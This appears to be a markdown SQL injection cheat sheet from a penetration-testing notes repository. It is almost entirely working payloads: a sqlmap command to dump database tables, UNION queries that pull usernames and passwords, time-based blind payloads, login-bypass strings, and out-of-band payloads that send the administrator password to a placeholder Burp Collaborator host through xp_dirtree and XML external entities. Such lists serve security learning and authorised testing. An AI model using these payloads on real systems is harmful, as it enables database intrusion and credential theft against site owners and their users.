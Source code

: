 # SQL Injection

## Reflected SQL Injection:</h2>
```bash
sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns
Results:
Database: public
Table: users
[POC]:
https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--
```

### First detect numbers of columns
```sql
' UNION SELECT NULL--
' UNION SELECT NULL, NULL--
' UNION SELECT NULL, NULL, NULL--
...
# Oracle
' UNION SELECT NULL FROM dual--
' UNION SELECT NULL, NULL FROM dual--
' UNION SELECT NULL, NULL, NULL FROM dual--

-- o #

```
### Second Find where holds strings data
```sql
' UNION SELECT 'a', NULL, NULL--
' UNION SELECT NULL, 'a', NULL--
' UNION SELECT NULL, NULL, 'a'--
```
## Version
```http2
Database type 	              Query
Microsoft, MySQL 	    SELECT @@version
Oracle 	                    SELECT * FROM v$version
PostgreSQL 	            SELECT version() 
```

## Blind SQL Injection:
```sql
';SELECT PG_SLEEP(5)--
'||pg_sleep(10)--
'SLEEP(2);--
```

## Blind SQL injection using out-of-band (OAST) techniques

```sql
'; exec master..xp_dirtree '//SUBDOMAIN.burpcollaborator.net/a'--
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.SUBDOMAIN.burpcollaborator.net/a"')--
```
## SQL Login
In nickname, email and password test for
```html
name'--
pass'--
'+OR+1=1--
'+OR+2=2--
'+OR+5=5--
'+OR+'E'='E'--
```


## Test cookies for https request - Blind:
```http2
  TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### Then for credentials.
```http2
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.
  ```
### CheatSheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
